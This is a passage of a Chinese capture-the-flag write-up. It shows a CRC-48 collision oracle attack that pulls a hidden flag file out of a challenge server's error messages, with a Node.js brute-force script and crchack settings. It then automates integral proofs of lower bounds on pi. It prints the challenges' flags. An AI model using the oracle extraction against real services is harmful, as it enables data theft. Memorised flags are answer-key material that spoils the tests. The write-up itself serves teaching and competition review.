1	Unmatched hash (6117eb2c9a6e)
2	Unmatched hash (499d97f8e9a4)
3	Unmatched hash (c312139ca977)
4	Unmatched hash (9b0be013806c)
5	Unmatched hash (93cb61325fc1)
```
```
$ reveng -w 48 -i ffffffffffff -b -x ffffffffffff -s c484f4aece4ef4469676f40e9e2e16f6768c04040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404045e6c96da99f4 c484f4aece4ef4469676f40e9e2e16f6764c04040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404044f9d1e958399 c484f4aece4ef4469676f40e9e2e16f6762c0404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404ca7b1697d160 c484f4aece4ef4469676f40e9e2e16f676ac0404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404d4da191dc2d6 c484f4aece4ef4469676f40e9e2e16f6766c0404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404c52b9152d8bb
width=48  poly=0x1a3d984bbf9f  init=0xffffffffffff  refin=false  refout=false  xorout=0xffffffffffff  check=0xca5e8706641b  residue=0x71e9299eb30a  name=(none)
```
可我不也拿不到正确行的 Hash 吗……？

等等！在 2024 年 11 月 8 日，也就是完赛前一天，我看代码时突然意识到个事情：
```Python
    with open('answer_c.txt', 'rb') as af:                                      
        answer_flag = base64.b85decode(af.read()).decode()                      
        closing, opening = answer_flag[-1:], answer_flag[:5]                    
        assert closing == '}' and opening == 'flag{'                            
        return {'answer_flag': answer_flag}, 200                                
```
那只要读 Flag 那个档案不就行了吗？根本就不需要还原脚本。这就去冲！

首先将 answer_c 当成 Base85 读，得到 Hash 229418662089585。推知 CRC 为 74778752044970 或 241880596754517。

我魔改了 [theonlypwner/crc32](https://github.com/theonlypwner/crc32)。注意它实现的也是倒转 CRC，但输出的是大端序。

碰撞字符表应该选用 Python 默认 Base85 里的东西。
```
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!#$%&()*+-;<=>?@^_`{|}~
```
按理说用 74778752044970 与 241880596754517 任意一者碰撞都可以，因为只看 Hash。
```
!VBgU1Hd
3565ZYQk
```
```
行号	错误信息
1	Unmatched length (8)
2	Unmatched length (8)
```
现在要做的是逐次增加长度，至长度正确为止。但这个过程可以在一个档案里做完。
```
!VBgU1Hd
!+enZC&Iq
!!*wF@P*{r
!!!*x}NLsxo
!!!!$d!QR3z>
!!!!!&T@^V**J
!!!!!!(Y^kg538
!!!!!!!)RHbiHrB
!!!!!!!!&$A)#xX`
!!!!!!!!!#eRK%vO`
!!!!!!!!!!>fY!SFdn
!!!!!!!!!!!!h$4}j$(
!!!!!!!!!!!!!j;TK1Ar
!!!!!!!!!!!!!&;2VUyCk
!!!!!!!!!!!!!!$>`A+N%t
!!!!!!!!!!!!!!!!o7;MKef
!!!!!!!!!!!!!!!!0iRz=az4
!!!!!!!!!!!!!!!!!->bE$jc(
!!!!!!!!!!!!!!!!!!#Y`_XiUV
!!!!!!!!!!!!!!!!!!!!fN^82SL
!!!!!!!!!!!!!!!!!!!!*N8%Vk}k
!!!!!!!!!!!!!!!!!!!!!)lCsAp;q
!!!!!!!!!!!!!!!!!!!!!!&{wK%QSO
!!!!!!!!!!!!!!!!!!!!!!!!)WQjCeL
!!!!!!!!!!!!!!!!!!!!!!!!!N~->D)4
!!!!!!!!!!!!!!!!!!!!!!!!!$UfSaYy)
!!!!!!!!!!!!!!!!!!!!!!!!!!#zDKoRyI
!!!!!!!!!!!!!!!!!!!!!!!!!!!!pYkwpMn
!!!!!!!!!!!!!!!!!!!!!!!!!!!!*IktCd*-
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$UtLS7$$
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!1}7ic7iq
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$c)g}c-6
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!*}sakiKx
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!2X0em{oW
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#@ya!xWr
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$iA*Tvti
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!2lca+O&v
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!4!~%a_wP
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%&(umU2&
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!3D^%~SyY
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#ftK1<hD
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!+P?+Np5(
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%WAH=?$
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!(W@}u8<T
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#IT~Qnv<
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!)-em@9}!
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!NRK$ub~A
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!*ZVT?fO<
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$Zj#t)7M
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!&pcM5Kk*
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!peh*(FH
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!=y*KLqlu
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!&n?gQ63=
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!46<c}(25
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!VPz?kUO
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!&ceCg1k
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%7~-@CH0
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!;J^1PB4e
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!*yPqV`X1
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!2~*VQAN)
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!&hI_o7(P
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%LF?+-?m
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!-3`(NReM
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%A~ZJ7S+
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!*6$%9%_a
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%i7WG^fe
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!8yC*+RdI
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!06UTK2d>
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!2rH!+Opp
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!%yv}I?Ue
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!(8i$JadI
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$T>xz05B
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!-jQwid<3
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!*+CqwDA5
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!66H{~r&7
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$oaIq1PD
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#{4Y|9aa
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!<zKLViI}
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!ZRCmnS=G
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!&v7WC~vr
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!(lA9pO02
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#>o<jh_<
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!Bg4TOl1
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!;~A*Og~@
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$7f*xc-`
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!?2YLGV4G
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#V!gdHYj
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!oHEvDA6
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!(i&{MmnY
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!)FT`WG??
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!8R%=1%|5
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!+<NfZx4C
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!CWGH_BJ9
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!#Ib0jJL>
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!&?$H<>~m
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!4ZTl|6j
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!$P@(Ixdo
```
```
行号	错误信息
1	Unmatched length (8)
2	Unmatched length (9)
3	Unmatched length (10)
4	Unmatched length (11)
5	Unmatched length (12)
6	Unmatched length (13)
7	Unmatched length (14)
8	Unmatched length (15)
9	Unmatched length (16)
10	Unmatched length (17)
11	Unmatched length (18)
12	Unmatched length (19)
13	Unmatched length (20)
14	Unmatched length (21)
15	Unmatched length (22)
16	Unmatched length (23)
17	Unmatched length (24)
18	Unmatched length (25)
19	Unmatched length (26)
20	Unmatched length (27)
21	Unmatched length (28)
22	Unmatched length (29)
23	Unmatched length (30)
24	Unmatched length (31)
25	Unmatched length (32)
26	Unmatched length (33)
27	Unmatched length (34)
28	Unmatched length (35)
29	Unmatched length (36)
30	Unmatched length (37)
31	Unmatched length (38)
32	Unmatched length (39)
33	Unmatched length (40)
34	Unmatched length (41)
35	Unmatched length (42)
36	Unmatched length (43)
37	Unmatched length (44)
38	Unmatched length (45)
39	Unmatched length (46)
40	Unmatched length (47)
41	Unmatched length (48)
42	Unmatched length (49)
43	Unmatched length (50)
44	Unmatched length (51)
45	Unmatched length (52)
46	Unmatched length (53)
47	Unmatched length (54)
48	Unmatched length (55)
49	Unmatched length (56)
50	Unmatched length (57)
51	Unmatched length (58)
52	Unmatched length (59)
53	Unmatched length (60)
54	Unmatched length (61)
55	Unmatched length (62)
56	Unmatched length (63)
57	Unmatched data (0x30)
58	Unmatched length (65)
59	Unmatched length (66)
60	Unmatched length (67)
61	Unmatched length (68)
62	Unmatched length (69)
63	Unmatched length (70)
64	Unmatched length (71)
65	Unmatched length (72)
66	Unmatched length (73)
67	Unmatched length (74)
68	Unmatched length (75)
69	Unmatched length (76)
70	Unmatched length (77)
71	Unmatched length (78)
72	Unmatched length (79)
73	Unmatched length (80)
74	Unmatched length (81)
75	Unmatched length (82)
76	Unmatched length (83)
77	Unmatched length (84)
78	Unmatched length (85)
79	Unmatched length (86)
80	Unmatched length (87)
81	Unmatched length (88)
82	Unmatched length (89)
83	Unmatched length (90)
84	Unmatched length (91)
85	Unmatched length (92)
86	Unmatched length (93)
87	Unmatched length (94)
88	Unmatched length (95)
89	Unmatched length (96)
90	Unmatched length (97)
91	Unmatched length (98)
92	Unmatched length (99)
93	Unmatched length (100)
94	Unmatched length (101)
95	Unmatched length (102)
96	Unmatched length (103)
97	Unmatched length (104)
```
可以看到正确的长度是 64。但这玩意还不够灵活，因为应该逐次改变末位才能得到所有内容，顺序反了。

于是换用 [resilar/crchack](https://github.com/resilar/crchack)。调参：
```
-w48 -p1a3d984bbf9f -iffffffffffff -xffffffffffff -rR
```
`-rR` 可以实现输入输出倒位，但注意对应的 CRC 仍为大端序。

接下来要做的就是从尾到头把字符一个个试出来了！
```JavaScript
'use strict';

const fs = require('fs');
const child_process = require('child_process');

let charset = [...'0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!#$%&()*+-;<=>?@^_`{|}~'].map((chr) => chr.codePointAt());
let template = Buffer.from('!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!');
let pos = 63;

let data = [];

for (let chr of charset) {
    template[pos] = chr;
    let datum = child_process.execSync(`./crchack -w48 -p1a3d984bbf9f -iffffffffffff -xffffffffffff -rR -b:${pos} - 4402c8f3cfaa`, { input: template });
    data.push(datum);
    data.push(Buffer.from([0x0D, 0x0A]));
};

fs.writeFileSync('./test.txt', Buffer.concat(data));
```
然后再观察错误信息的反常点，逐步补全 template 并减小 pos。如此反复。

有时候运气不好会遇到正确行被换行符拦腰截断的情形，稍微修改下 template 就好。
```
q_c6Gc8##buBY?WpXW4axrCOEmSZqM|EX$b1g7#Wi2pfEmUY_EmAOdb3c6
```
到这其实没可能再撞下去了。但因为开头必须是 `flag{`，所以缺失的内容就是 `W^7?+d`。
```
W^7?+dq_c6Gc8##buBY?WpXW4axrCOEmSZqM|EX$b1g7#Wi2pfEmUY_EmAOdb3c6
```
```
flag{HAV3-Y0u-3ver-Tr1ed-T0-Guess-0ne-0f-The-R0ws?}
```
……痛失一血就算了，还搁 Flag 里嘲讽我是罢？

## \[math\] 优雅的不等式
### \[Flag 1\] Easy
众所周知，要用非负函数的积分证明 $\pi$ 大于或小于某个有理数，可以构造 $\displaystyle\int_0^1\dfrac{x^n(1-x)^n\left(a+bx+cx^2\right)}{1+x^2}dx$ 型的积分。因为它的结果是 $\pi$、$\ln2$ 与 $1$ 的有理线性组合（假定 $a$、$b$ 与 $c$ 都是有理数），而 $\ln2$ 项可以凑系数消去。

大量知乎答主使用类似的技巧，包括著名的量化调酒师。这种技巧的核心就是线性组合凑系数，我也用过，不过当时没耐心选基而失败了。

[如何优雅地证明e^π-π＜20？](https://www.zhihu.com/question/631202464/answer/3303616899)

只是我以前只尝试过手算挑选，能不能自动化呢？

一想到 Mathematica 也能写循环，悬着的心终于死了——不太想碰 Wolfram 语言这种反人类的东西。
```Wolfram
n = 1; While[True,
    f = x^n(1-x)^n(a+b x+c x^2)/(1+x^2);
    int = PowerExpand[Integrate[f, {x, 0, 1}]];
    coefPi = Coefficient[int, Pi];
    coefLn = Coefficient[int, Log[2]];
    constTerm = Simplify[int - coefPi Pi - coefLn Log[2]];
    sol = Solve[coefPi == 1 && coefLn == 0 && constTerm == -8/3, {a, b, c}];
    f = Simplify[f /. sol[[1]]];
    If[Reduce[f < 0 && 0 <= x <= 1] == False,
        Print[ToString[f, InputForm]];
        Break[]
    ];
    n += 1
]
(-2*(-1 + x)*x*(2 - x + x^2))/(1 + x^2)
```
```
Enter the function f(x): (-2*(-1+x)*x*(4-x+3*x**2))/(1+x**2)
Q.E.D.
Please prove that pi>=8/3
Enter the function f(x): (-2*(-1+x)*x*(2-x+x**2))/(1+x**2)
Q.E.D.
flag{y0u_ar3_g0od_at_constructi0n_720cf5379d}
```

### \[Flag 2\] Hard
如果每次凑系数都积一遍的话那实在太慢了！所以必须搞清楚这么凑的原理。

事情是这样的。设 $\displaystyle I_n=\int_0^1\dfrac{x^n}{1+x^2}dx$，则：

$I_0=\dfrac{\pi}{4}$

$I_1=\dfrac{\ln2}{2}$

$I_{n+2}=\dfrac{1}{n+1}-I_n$

因而就会交替产生 $\pi$ 与 $\ln2$，递推时又带来了有理项。

$\displaystyle\int_0^1\dfrac{x^n(1-x)^n\left(a+bx+cx^2\right)}{1+x^2}dx=\begin{cases}aI_0+bI_1+cI_2,&n=0\cr\displaystyle aI_n+(b-an)I_{n+1}+\sum_{j=n+2}^{2n}(-1)^{j-n}\left(\binom{n}{j-n}a-\binom{n}{j-n-1}b+\binom{n}{j-n-2}c\right)I_j+(-1)^n(b-cn)I_{2n+1}+(-1)^ncI_{2n+2},&n\ge1\end{cases}$

这样就可以预先给系数打表了。
```Python
import sympy
import re
import pyperclip

def coefs_add(x, y):
    assert len(x) == len(y)
    return tuple([x[i] + y[i] for i in range(len(x))])

def coefs_sub(x, y):
    assert len(x) == len(y)
    return tuple([x[i] - y[i] for i in range(len(x))])

def coefs_mul(k, x):
    return tuple([k * X for X in x])

I = [(sympy.Rational(1, 4), sympy.Rational(0), sympy.Rational(0)), (sympy.Rational(0), sympy.Rational(1, 2), sympy.Rational(0))]

def I_get(n):
    if len(I) <= n:
        I.extend([None] * (n - len(I) + 1))
    if I[n] == None:
        I[n] = coefs_sub((sympy.Rational(0), sympy.Rational(0), sympy.Rational(1, n - 1)), I_get(n - 2))
    return I[n]

a = sympy.symbols('a')
b = sympy.symbols('b')
c = sympy.symbols('c')
x = sympy.symbols('x')

Iabc = [coefs_add(coefs_add(coefs_mul(a, I_get(0)), coefs_mul(b, I_get(1))), coefs_mul(c, I_get(2)))]

def Iabc_get(n):
    if len(Iabc) <= n:
        Iabc.extend([None] * (n - len(Iabc) + 1))
    if Iabc[n] == None:
        Iabc[n] = coefs_mul(a, I_get(n))
        Iabc[n] = coefs_add(Iabc[n], coefs_mul(b - a * n, I_get(n + 1)))
        for j in range(n + 2, 2 * n + 1):
            Iabc[n] = coefs_add(Iabc[n], coefs_mul((-1) ** (j - n) * (sympy.binomial(n, j - n) * a - sympy.binomial(n, j - n - 1) * b + sympy.binomial(n, j - n - 2) * c), I_get(j)))
        Iabc[n] = coefs_add(Iabc[n], coefs_mul((-1) ** n * (b - c * n), I_get(2 * n + 1)))
        Iabc[n] = coefs_add(Iabc[n], coefs_mul((-1) ** n * c, I_get(2 * n + 2)))
    return Iabc[n]

# 乐意的话可以预先跑 Iabc_get(100) 初始化，但其实不初始化效率也很高
# 次数应该是逐关递增，所以在循环之外定义次数，略去不必要的迭代过程
# 收敛情况与具体函数构造有关，在其它情形次数增大不一定收敛
n = 0
print('Ready!')
while True:
    num = sympy.parsing.sympy_parser.parse_expr(re.sub(r'.*=', '', pyperclip.waitForNewPaste(), flags = re.DOTALL))
    pyperclip.copy('')
    while True:
        coef_pi, coef_ln, const_term = Iabc_get(n)
        sol, = sympy.linsolve([coef_pi - 1, coef_ln, const_term + num], [a, b, c])
        D = sol[0] + sol[1] * x + sol[2] * x ** 2
        domain = sympy.Interval(0, 1)
        # 其余因式显然非负，不然我为何非要凑 x^n 和 (1-x)^n 呢？
        # 从作用上来讲，乘上这些因式之后收敛快，效果好；这可是实战经验——不信可以去掉两者中的任意一个，看看效果会差到哪种地步
        # 而在众多可选因式中选择这两者的原因之一是 x ↦ x 和 x ↦ 1-x 在 [0, 1] 上非负，简化了符号判断
        if sympy.solveset(D >= 0, x, domain) == domain:
            f = x ** n * (1 - x) ** n * D / (1 + x ** 2)
            out = str(sympy.simplify(f)).replace(' ', '')
            pyperclip.copy(out)
            print(out)
            break
        n += 1
```
```
Please prove that pi>=2
Enter the function f(x): -2*x*(x-1)*(3*x**2-x+4)/(x**2+1)
Q.E.D.
Please prove that pi>=8/3
Enter the function f(x): -2*x*(x-1)*(x**2-x+2)/(x**2+1)
Q.E.D.
flag{y0u_ar3_g0od_at_constructi0n_720cf5379d}

Please prove that pi>=4106/1307
Enter the function f(x): x**6*(x-1)**6*(29159*x**2+39210*x+29159)/(78420*(x**2+1))
Q.E.D.
Please prove that pi>=165276/52609
Enter the function f(x): x**8*(367855-408*x**2)*(x-1)**8/(1473052*(x**2+1))
Q.E.D.
Please prove that pi>=3672952/1169137
Enter the function f(x): x**9*(x-1)**9*(-7548871*x**2+8183959*x-15732830)/(65471672*(x**2+1))
Q.E.D.
Please prove that pi>=185409393/59017643
Enter the function f(x): x**10*(x-1)**10*(443006517*x**2-590176430*x+443006517)/(4721411440*(x**2+1))
Q.E.D.
Please prove that pi>=4716702189/1501372937
Enter the function f(x): x**11*(x-1)**11*(-100942400023*x**2+82575511535*x-18366888488)/(1321208184560*(x**2+1))
Q.E.D.
Please prove that pi>=152871671377/48660564317
Enter the function f(x): x**14*(x-1)**14*(22755717448435*x**2+97418449762634*x+22755717448435)/(3117390392404288*(x**2+1))
Q.E.D.
Please prove that pi>=4293250665610/1366584130729
Enter the function f(x): x**16*(483090369874223-138705409607472*x**2)*(x-1)**16/(39794929886828480*(x**2+1))
Q.E.D.
Please prove that pi>=147854656411446/47063598854071
Enter the function f(x): x**18*(x-1)**18*(153575667725873189*x**2-187218996241494438*x+153575667725873189)/(23964031518911288064*(x**2+1))
Q.E.D.
Please prove that pi>=4730861736989075/1505880061052243
Enter the function f(x): x**19*(x-1)**19*(-2063675333843657747*x**2+1459197779159623467*x-604477554684034280)/(373554631464863607552*(x**2+1))
Q.E.D.
Please prove that pi>=170849288047834636/54383017433087911
Enter the function f(x): x**23*(x-1)**23*(-3427354866938739448831*x**2-4444125801614510999009*x-7871480668553250447840)/(4550784820853259262985216*(x**2+1))
Q.E.D.
Please prove that pi>=4089344025898084869/1301678631449983727
Enter the function f(x): x**25*(x-1)**25*(-243667437321692722919937*x**2+156429229534501794392225*x-400096666856194517312162)/(320367062086659674915276800*(x**2+1))
Q.E.D.
Please prove that pi>=163947345420039449762/52186060860787372081
Enter the function f(x): x**26*(x-1)**26*(155412446413740196667724641*x**2-163057956462573183435688550*x+155412446413740196667724641)/(333942694835349879676290150400*(x**2+1))
Q.E.D.
Please prove that pi>=5711045672846426107782/1817882298114176109271
Enter the function f(x): x**27*(x-1)**27*(-206678054474930080310672993*x**2+154910840033799517151528265*x-51767214441130563159144728)/(634514800778442822252659773440*(x**2+1))
Q.E.D.
Please prove that pi>=143456709366624855427998/45663688830791494887143
Enter the function f(x): x**30*(x-1)**30*(85767412402776311083535580619*x**2+415747338144382704774737800650*x+85767412402776311083535580619)/(3405802194078783117514652062924800*(x**2+1))
Q.E.D.
Please prove that pi>=5150394025074332207862768/1639421335923086203163443
Enter the function f(x): x**33*(x-1)**33*(-518418442650214940689536201427*x**2+5593221968875472814763734300315*x-6111640411525687755453270501742)/(183278697476111493194178045552721920*(x**2+1))
Q.E.D.
Please prove that pi>=179728309763824272098968663/57209297824927977721696859
Enter the function f(x): x**34*(x-1)**34*(51819200498462167620140690443897*x**2-96176266852421171187276240570670*x+51819200498462167620140690443897)/(3151503912220136937464667851019714560*(x**2+1))
Q.E.D.
Please prove that pi>=3973637405681016434674787199/1264848070337977580923164343
Enter the function f(x): x**35*(x-1)**35*(-8338865053350552140609228308293879*x**2+5315935091218210626543398179868975*x-3022929962132341514065830128424904)/(348385122138076651621148143115893145600*(x**2+1))
Q.E.D.
Please prove that pi>=226613539374506386245611940411/72133329926005093693303556371
Enter the function f(x): x**38*(x-1)**38*(128148674849842931504559286264102429*x**2+244735837239528158015076331947994446*x+128148674849842931504559286264102429)/(32078015658659434727352084981087528026112*(x**2+1))
Q.E.D.
Please prove that pi>=5050139270098778977671701579155/1607509256277434032932581604673
Enter the function f(x): x**39*(x-1)**39*(102636041297320153548809043670500695563*x**2-106352984398805457304261122751397380011*x-3716943101485303755452079080896684448)/(27879796742240457799568227762542314785603584*(x**2+1))
Q.E.D.
Please prove that pi>=173009950746273211989777752709835/55070777730709456063693627326433
Enter the function f(x): x**42*(x-1)**42*(42569441169712969359737435370201019830757*x**2-41007106394392393228926108241244127717294*x+42569441169712969359737435370201019830757)/(21499533797303199061207211437585401232644636672*(x**2+1))
Q.E.D.
Please prove that pi>=8101835958579820797421728127953837/2578894481855285351443957131289283
Enter the function f(x): x**43*(x-1)**43*(-581686474705399954465409146397214838485817*x**2+474559525833389877022075005487421169851233*x-107126948872010077443334140909793668634584)/(497611729360272623688299320953978140597926494208*(x**2+1))
Q.E.D.
Please prove that pi>=197222277647266277848500930074853534/62777800750809291964599763313860771
Enter the function f(x): x**47*(x-1)**47*(-4434697911657826743413217791429171485693147*x**2-4426758477158900238998374540745294561302181*x-8861456388816726982411592332174466046995328)/(18567170787781483908031838329746151959647982977024*(x**2+1))
Q.E.D.
Please prove that pi>=7468434120227700506862610056686147071/2377276414780818164673804719242575221
Enter the function f(x): x**47*(x-1)**47*(159101255997426425197843822636279360863366403*x**2-167632959355385521225523749047826330604576131*x-8531703357959096027679926411546969741209728)/(703103591956130913218299162726294169760096084557824*(x**2+1))
Q.E.D.
Please prove that pi>=254708066862524854165684663370014125803/81076095773103630656395745169213300661
Enter the function f(x): x**50*(x-1)**50*(16457490299112299433692196977432711326166833063501*x**2-14006790782999374017526891366979968883992983728950*x+16457490299112299433692196977432711326166833063501)/(117497477216594812878418221136179102820014615252539801600*(x**2+1))
Q.E.D.
Please prove that pi>=5791276565723425086526071675718994567852/1843420584494277555896898383642332000721
Enter the function f(x): x**51*(x-1)**51*(-4213063284822328186470346071751663524555510525165047*x**2+2707005717899129937138604018016220956865298945590575*x-1506057566923198249331742053735442567690211579574472)/(45416019642428769167440781548726030497055803314745324339200*(x**2+1))
Q.E.D.
Please prove that pi>=150747366282207491002975531965005593122596/47984377003795669971059895702143280565967
Enter the function f(x): x**51*(x-1)**51*(-85288574107205053725602522722390640158291481755979369*x**2+70463563232227551917338388382565099989524979349183025*x-14825010874977501808264134339825540168766502406796344)/(1182182420476739799668400286986185316585858315936783033958400*(x**2+1))
Q.E.D.
Please prove that pi>=4976162596115867366060395574704044234649190/1583961749601678049303060693448542805804549
Enter the function f(x): x**55*(x-1)**55*(511299097023296087580514929855559022812303389655491564619*x**2-612581790098405939706632818498791972122605691976399108075*x-101282693075109852126117888643232949310302302320907543456)/(41109668040590470824564621714572114621467736708470058953526476800*(x**2+1))
Q.E.D.
Please prove that pi>=255191165863042408452335889108532391254976197/81229870960973876392102853760105191187414229
